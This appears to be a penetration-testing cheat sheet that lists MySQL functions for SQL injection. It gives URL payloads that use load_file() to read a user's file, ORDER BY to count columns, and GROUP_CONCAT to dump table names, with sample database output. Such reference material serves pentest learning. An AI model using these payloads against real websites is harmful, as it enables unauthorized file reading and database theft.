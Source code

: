 # MySQL Functions
This sheet serves as a list of functions to be leveraged during a successful MySQL SQL injection attack.
## LOAD_FILE()
We may be able to read files on the target file system using the MySQL `load_file()` function like so,
```
https://127.0.0.1/comments.php?id=1337 union all select 1,2,3,4,load_file("C:\users\username\Desktop\user.txt"), 6
```
Becareful about how you use single and double quotes. We must know where the file resides on the file system before attmpting to read it.
## UNION ALL SELECT

## ORDER BY
We can oftent use the SQL statement `ORDER BY` to gather how many columns the current database table has,
```
https://127.0.0.1/comments.php?id=1337 order by N
```
Keep increasing `N` in the above statment until we get an error, or instant HTTP request inthe case of a [Blind SQL Injection Attack](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Vulnerabilities/Web/SQL%20Injection/sql-injection-blind.md).
## GROUP CONCAT
Group concatenation of records can be achieved using the `GROUP_CONCAT` stored procedure in MySQL,
```
MariaDB [security]> select group_concat(distinct table_name separator ', ') from information_schema.tables where table_schema = 'security';
+--------------------------------------------------+
| group_concat(distinct table_name separator ', ') |
+--------------------------------------------------+
| emails, referers, uagents, users                 |
+--------------------------------------------------+
1 row in set (0.00 sec)

```
This way, we can acheive all records as a single string for simple SQL injection of a given column.
